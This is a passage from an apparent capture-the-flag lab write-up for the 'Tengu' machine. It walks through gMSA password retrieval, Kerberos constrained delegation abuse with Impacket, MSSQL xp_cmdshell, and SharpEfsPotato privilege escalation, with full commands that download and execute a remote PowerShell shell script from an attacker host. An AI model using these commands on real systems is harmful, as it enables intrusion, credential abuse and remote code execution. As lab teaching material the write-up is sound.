 ![](https://photos.squarezero.dev/file/abir-images/Tengu/17.png)

![](https://photos.squarezero.dev/file/abir-images/Tengu/18.png)

Next, I used `Netexec` to retrieve the gMSAPassword for **gMSA01$**.

![](https://photos.squarezero.dev/file/abir-images/Tengu/19.png)

# Constrained Delegation

**GMSA01$** has constrained delegation rights over ***SQL.tengu.vl***.

![](https://photos.squarezero.dev/file/abir-images/Tengu/20.png)

I confirmed this by running `finddelegation` from Impacket.

![](https://photos.squarezero.dev/file/abir-images/Tengu/21.png)

Even though I have delegation permissions, I couldn’t impersonate the Administrator because they belong to a protected group. However, I found two users in the SQL_Admins group and successfully impersonated **T1_M.Winters**.

`proxychains4 -q getST.py  -spn "MSSQLSvc/sql.tengu.vl" -impersonate "t1_m.winters" -no-pass -hashes :fb7788<SNIP>490c49575 'tengu.vl/gMSA01$@sql.tengu.vl' -dc-ip 10.10.233.197`

![](https://photos.squarezero.dev/file/abir-images/Tengu/22.png)

![](https://photos.squarezero.dev/file/abir-images/Tengu/23.png)


Using the TGT, I logged into the MSSQL server with admin privileges:
`proxychains4 -q KRB5CCNAME=t1_m.winters@MSSQLSvc_sql.tengu.vl@TENGU.VL.ccache mssqlclient.py -k -no-pass t1_m.winters@sql.tengu.vl -port 1433 -dc-ip 10.10.233.197`

![](https://photos.squarezero.dev/file/abir-images/Tengu/24.png)

# MSSQL XP_CMDShell ReverseShell

I enabled `xp_cmdshell` and ran a PowerShell script to gain a shell on the machine:

`xp_cmdshell "powershell -nop -exec bypass IEX(New-Object Net.WebClient).DownloadString(\"http://10.8.2.110/shell.ps1\\")"`

![](https://photos.squarezero.dev/file/abir-images/Tengu/25.png)

# SeImpersonatePrivilege With SharpEfsPotato
GMSA01$ have **SeImpersonatePrivilege** and I used [SharpEfsPotato](https://github.com/bugch3ck/SharpEfsPotato) to gain a shell as NT AUTHORITY.

`.\SharpEfsPotato.exe -p C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -a "-c IEX(New-Object Net.WebClient).DownloadString("http://10.8.2.110/shell.ps1")"`

